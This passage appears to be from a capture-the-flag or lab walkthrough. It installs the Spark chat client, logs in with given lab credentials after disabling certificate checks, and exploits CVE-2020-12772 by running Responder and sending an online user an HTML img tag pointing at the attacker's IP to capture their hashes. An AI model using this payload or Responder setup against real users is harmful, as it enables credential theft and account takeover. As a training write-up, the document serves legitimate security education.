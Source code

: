 this didn't work for me either, so i tried to download and install the tarball package (spark_2_8_3.tar.gz). when that also didn't work, i ended up finding an installer on the internet and just downloaded then installed that. the version difference in this case didn't matter, but in a real-life scenario, versions are often very important, and some exploits don't work with later versions of applications.

once you've downloaded spark, try to get some info on the package.

```
dpkg-deb -I spark_2_8_3.deb
```

![sparkinfo](/sparkinfo.png)

it's a "cross-platform real-time collaboration client optimized for business and organizations".

basically, it's an IM client or chat app.


when it's installed, try to use the credentials lilyle:ChangeMe#1234 to log in.

the login fails, because the app wasn't able to verify the certificate. no matter, because we can go into the advanced settings of the app and select the option "accept all certificates" and disable "certificate hostname verification".

now, we can log in. 

we see there's a conference room, but no one is in it. the app looks pretty empty.

![spark_room](/spark_room.png)

![sparkempty](/sparkempty.png)

when dealing with apps like this, it's good practice to start searching vuln databases to see if any exploit exists. a good place to check is https://attackerkb.com/

searching for "spark exploits" leads us to CVE-2020-12772. 

![attackerkb](/attackerkb.png)

in a nutshell, this exploit allows us to send an "image" to a contact, but the SRC attribute of the image will refer our IP address. when the contact clicks this link, their hashes will be sent with the HTTP request. to receive this data, we'll need to run Responder.py.

now we need to select a target. if you remember, the site had a list of technical staff and their status (online/offline). going back to the site, we see that the user "buse" is online. let's target them.

first, run responder:

```
/opt/Responder/Responder.py
```

now, send the following "image" to buse:

```
<img src="http://10.9.6.194/bilal.jpg>
```
